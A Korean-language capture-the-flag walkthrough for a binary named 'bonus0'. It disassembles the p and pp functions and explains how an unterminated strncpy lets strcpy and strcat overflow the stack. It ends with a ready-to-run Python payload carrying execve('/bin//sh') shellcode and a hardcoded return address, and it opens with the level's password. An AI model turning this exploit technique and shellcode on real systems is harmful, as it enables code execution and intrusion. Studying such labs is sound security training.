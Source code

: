 > Password:  f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

bonus0 프로그램의 어셈블리 코드를 보면

main함수, pp함수, p함수가 있는 것을 볼 수 있다.

main함수에서는 pp함수를 호출하고, pp함수에서는 p함수를 호출하는 식의 구조로 되어있다.

먼저 p함수는 

```
080484b4 <p>:
 80484b4:	55                   	push   %ebp
 80484b5:	89 e5                	mov    %esp,%ebp
 80484b7:	81 ec 18 10 00 00    	sub    $0x1018,%esp
 80484bd:	8b 45 0c             	mov    0xc(%ebp) <" - ">,%eax
 80484c0:	89 04 24             	mov    %eax,(%esp)
 80484c3:	e8 e8 fe ff ff       	call   80483b0 <puts@plt>
 80484c8:	c7 44 24 08 00 10 00 	movl   $0x1000,0x8(%esp)
 80484cf:	00 
 80484d0:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 80484d6:	89 44 24 04          	mov    %eax,0x4(%esp)
 80484da:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 80484e1:	e8 9a fe ff ff       	call   8048380 <read@plt>
 80484e6:	c7 44 24 04 0a 00 00 	movl   $0xa,0x4(%esp)
 80484ed:	00 
 80484ee:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 80484f4:	89 04 24             	mov    %eax,(%esp)
 80484f7:	e8 d4 fe ff ff       	call   80483d0 <strchr@plt>
 80484fc:	c6 00 00             	movb   $0x0,(%eax)
 80484ff:	8d 85 f8 ef ff ff    	lea    -0x1008(%ebp),%eax
 8048505:	c7 44 24 08 14 00 00 	movl   $0x14,0x8(%esp)
 804850c:	00 
 804850d:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048511:	8b 45 08             	mov    0x8(%ebp) <-0x30(%ebp) in main>,%eax 
 8048514:	89 04 24             	mov    %eax,(%esp)
 8048517:	e8 d4 fe ff ff       	call   80483f0 <strncpy@plt>
 804851c:	c9                   	leave  
 804851d:	c3                   	ret   
```

코드에서 볼 수 있듯이 `" - \n"`을 출력한 뒤에 read 함수로 stdin에서 최대 0x1000바이트를 읽은 후, 읽은 문자열에서 `"\n"`을 strchr로 찾은 뒤 그 부분을 null 문자로 대체하고, 결과물을 strncpy를 이용해서 최대 0x14바이트까지 잘라서 p함수의 첫번째 인자로 들어온 포인터에 담는다.

pp 함수는

```
0804851e <pp>:
 804851e:	55                   	push   %ebp
 804851f:	89 e5                	mov    %esp,%ebp
 8048521:	57                   	push   %edi
 8048522:	53                   	push   %ebx
 8048523:	83 ec 50             	sub    $0x50,%esp
 8048526:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
 804852d:	08 
 804852e:	8d 45 d0             	lea    -0x30(%ebp),%eax
 8048531:	89 04 24             	mov    %eax,(%esp)
 8048534:	e8 7b ff ff ff       	call   80484b4 <p>
 8048539:	c7 44 24 04 a0 86 04 	movl   $0x80486a0,0x4(%esp)
 8048540:	08 
 8048541:	8d 45 e4             	lea    -0x1c(%ebp),%eax
 8048544:	89 04 24             	mov    %eax,(%esp)
 8048547:	e8 68 ff ff ff       	call   80484b4 <p>
 804854c:	8d 45 d0             	lea    -0x30(%ebp),%eax
 804854f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048553:	8b 45 08             	mov    0x8(%ebp),%eax
 8048556:	89 04 24             	mov    %eax,(%esp)
 8048559:	e8 42 fe ff ff       	call   80483a0 <strcpy@plt>
 804855e:	bb a4 86 04 08       	mov    $0x80486a4,%ebx
 8048563:	8b 45 08             	mov    0x8(%ebp),%eax
 8048566:	c7 45 c4 ff ff ff ff 	movl   $0xffffffff,-0x3c(%ebp)
 804856d:	89 c2                	mov    %eax,%edx
 804856f:	b8 00 00 00 00       	mov    $0x0,%eax
 8048574:	8b 4d c4             	mov    -0x3c(%ebp),%ecx
 8048577:	89 d7                	mov    %edx,%edi
 8048579:	f2 ae                	repnz scas %es:(%edi),%al
 804857b:	89 c8                	mov    %ecx,%eax
 804857d:	f7 d0                	not    %eax
 804857f:	83 e8 01             	sub    $0x1,%eax
 8048582:	03 45 08             	add    0x8(%ebp),%eax
 8048585:	0f b7 13             	movzwl (%ebx),%edx
 8048588:	66 89 10             	mov    %dx,(%eax)
 804858b:	8d 45 e4             	lea    -0x1c(%ebp),%eax
 804858e:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048592:	8b 45 08             	mov    0x8(%ebp),%eax
 8048595:	89 04 24             	mov    %eax,(%esp)
 8048598:	e8 f3 fd ff ff       	call   8048390 <strcat@plt>
 804859d:	83 c4 50             	add    $0x50,%esp
 80485a0:	5b                   	pop    %ebx
 80485a1:	5f                   	pop    %edi
 80485a2:	5d                   	pop    %ebp
 80485a3:	c3                   	ret    
```

p 함수를 2번 호출한 뒤 그 결과를 각각 strcpy, strcat을 이용해서 하나로 합친다.

이때 p함수 호출의 결과물을 스택 지역변수(-0x30(%ebp), -0x1c(%ebp))에 담는데, p 함수에서 사용하는 strncpy는 만약 src의 길이가 len보다 길면 dst에서 null terminate를 해주지 않는다는 문제가 있다.

따라서 첫번째 p함수 호출에서 길이가 0x14보다 긴 문자열을 입력한 뒤에 다시 입력을 받으면 원래 별개의 문자열이여아 하는 각각의 p함수 호출의 결과물이 하나의 문자열으로 합쳐지게 된다.

이로 인해 strcpy, strcat을 호출해서 문자열을 다시 합쳤을 때 문자열의 길이가 버퍼 크기를 벗어나게 될 것이고, 이를 이용해서 ebp + 0x4위치를 덮어서 쉘코드를 실행시킬 수 있다.

```bash
cat <(python -c 'print "A" * 20 + "\n" + ("A"*4075) + "AAAAAAAAAAAAAA\x50\xe8\xff\xbfA\n" + ("B" * (0x200-20)) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("A"*3556),') - | ./bonus0
```